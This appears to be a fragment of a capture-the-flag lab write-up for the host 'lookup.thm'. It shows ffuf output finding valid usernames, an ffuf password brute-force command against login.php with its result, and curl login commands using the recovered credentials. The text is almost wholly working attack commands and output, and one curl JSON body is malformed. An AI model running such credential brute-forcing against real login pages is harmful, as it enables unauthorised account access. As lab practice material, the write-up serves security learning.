 
admin [Status: 200, Size: 62, Words: 8, Lines: 1, Duration: 192ms]
jose [Status: 200, Size: 62, Words: 8, Lines: 1, Duration: 194ms]

# found ids

admin, jose

# ffuf password

[/usr/share/seclists/Passwords/Common-Credentials]
└─# ffuf -u http://lookup.thm/login.php -X POST -d 'username=admin&password=FUZZ' -H "Content-Type: application/x-www-form-urlencoded; charset=UTF-8" -w 10-million-password-list-top-1000000.txt -fs 62 -o /ffuf.login.passwd.txt

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev

---

:: Method : POST
:: URL : http://lookup.thm/login.php
:: Wordlist : FUZZ: /usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt
:: Header : Content-Type: application/x-www-form-urlencoded; charset=UTF-8
:: Data : username=admin&password=FUZZ
:: Follow redirects : false
:: Calibration : false
:: Timeout : 10
:: Threads : 40
:: Matcher : Response status: 200-299,301,302,307,401,403,405,500
:: Filter : Response size: 62

---

password123 [Status: 200, Size: 74, Words: 10, Lines: 1, Duration: 191ms]

# login

curl -L -v -c cookies.txt -X POST http://lookup.thm/login.php -d 'username=jose&password=password123' -H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8'

curl -L -c cookies.txt -X POST http://lookup.thm/login.php -d '{"username": "admin", {"password": "password123"}}' -H "Content-Type: application/json"

# login success

